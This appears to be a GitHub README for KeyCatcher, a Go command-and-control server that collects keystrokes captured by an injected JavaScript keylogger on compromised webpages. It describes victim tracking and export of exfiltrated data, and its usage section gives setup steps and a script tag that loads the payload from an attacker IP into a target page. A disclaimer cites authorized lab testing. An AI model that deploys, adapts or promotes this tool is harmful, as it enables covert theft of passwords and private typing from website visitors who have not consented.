 # 🎯 KeyCatcher – Terminal-Based Keystroke Exfiltration C2

![Language: Go](https://img.shields.io/badge/language-Go-blue.svg)
![License: MIT](https://img.shields.io/badge/license-MIT-green.svg)
![Platform](https://img.shields.io/badge/platform-Linux%20%7C%20macOS%20%7C%20Windows-lightgrey)

**KeyCatcher** is a powerful terminal-based C2 server. It captures keystrokes from compromised webpages and visualizes them in a clean, real-time Terminal UI.
![Demo](keycatcher.gif)

## ✨ Features

- 🚀 **Real-Time Keystroke Capture** : Watch victims type live with zero delay.

- 📊 **Beautiful Terminal UI**  : Built with `tview`, logs are neatly organized by victim IP.

- 💾 **Persistent Storage**  : All keystrokes are stored in `keystrokes.db` (SQLite).

- 📦 **Self-Hosted Payload** : Automatically serves `keylogger.js` for easy deployment.

- 🧠 **Smart Log Parsing**  :  Recognizes and labels special keys like `[BACKSPACE]`, `[ENTER]`, etc.

- ⬇️ **One-Click Data Export**  : Export logs per victim using a single hotkey.

- 💻 **Cross-Platform Support**  : Works on **Linux**, **macOS**, and **Windows**.


## 🛠 How It Works

### 🧩 1. JavaScript Payload (`keylogger.js`)
- Injected into the target page.
- Captures keystrokes using `keydown` events.
- Sends each keypress to the C2 server via `POST /log`.

### 🧠 2. Go C2 Server (`main.go`)
- **HTTP Listener** – Serves the payload and receives data.
- **SQLite Logger** – Stores each keystroke with IP data.
- **TUI Renderer** – Uses `tview` to display victim data and keystrokes in real-time.


## 📋 Requirements

- **Go** version `1.18+` installed.


## 🚀 Installation & Setup

```bash
# 1. Clone the repository
git clone https://github.com/your-username/keycatcher.git

# 2. Change directory
cd keycatcher

# 3. Install dependencies
go mod tidy

# 4. Configure the payload:
Open the keylogger.js file and modify the attackerServer variable to point to the IP address and port of the machine where you will run the KeyCatcher server.
```

# ▶️ Usage

```bash
# 1. Start the KeyCatcher C2 Server:
  go run main.go
# 2. Deploy the Payload:Inject the following script tag into the target webpage. The victim's browser will fetch and execute the payload from your C2 server.
  <script src="http://192.168.1.110:80/keylogger.js"></script>
# 3. Monitor the TUI:
    a. As victims visit the infected page and start typing, their IP addresses will appear in the "Victims" list on the left.
    b. Use the Up/Down arrow keys to select a victim.
    c. The "Keystrokes" pane on the right will display their reconstructed typing in real-time.
    d. Press Ctrl+E to export all captured logs to exfiltrated_data.log.
    e. Press Ctrl+C to quit the application.
```

⚠️ Disclaimer

This tool is intended for educational purposes and for use in authorized security testing scenarios only, such as the OffSec labs. Unauthorized use of this tool to capture keystrokes from individuals without their explicit consent is illegal and unethical. The author is not responsible for any misuse or damage caused by this program.

    

    
